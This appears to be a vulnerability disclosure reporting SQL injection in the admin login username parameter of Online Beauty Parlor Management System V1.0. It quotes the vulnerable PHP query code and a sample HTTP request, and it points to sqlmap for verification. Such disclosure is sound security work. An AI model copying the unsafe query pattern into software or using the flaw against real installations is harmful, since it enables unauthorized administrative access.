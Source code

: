Online Beauty Parlor Management System - SQL Injection on (/admin/index.php username parameter) 

Vendor Homepage:

```
https://www.campcodes.com/projects/online-beauty-parlor-management-system/
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
/admin/index.php
```

On this page, username parameter is vulnerable to SQL Injection Attack

```
if(isset($_POST['login']))
  {
    $adminuser=$_POST['username'];
    $password=md5($_POST['password']);
    $query=mysqli_query($con,"select ID from tbladmin where  UserName='$adminuser' && Password='$password' ");
    $ret=mysqli_fetch_array($query);
    if($ret>0){
      $_SESSION['bpmsaid']=$ret['ID'];
     header('location:dashboard.php');
    }
    else{
    $msg="Invalid Details.";
    }
  }
  ?>
```

Proof of vulnerability(Verify using the sqlmap tool after logining):

Request:

```
POST /bpms/admin/index.php HTTP/1.1
Host: localhost
Content-Length: 50
Cache-Control: max-age=0
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bpms/admin/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=35oep1of4pinmqsin6t7o6nae7
Connection: keep-alive

password=Test%40123&login=Sign+In&username=admin
```



<img width="986" height="659" alt="image" src="https://github.com/user-attachments/assets/09e10761-7b3f-408c-8293-3865cc7551fc" />
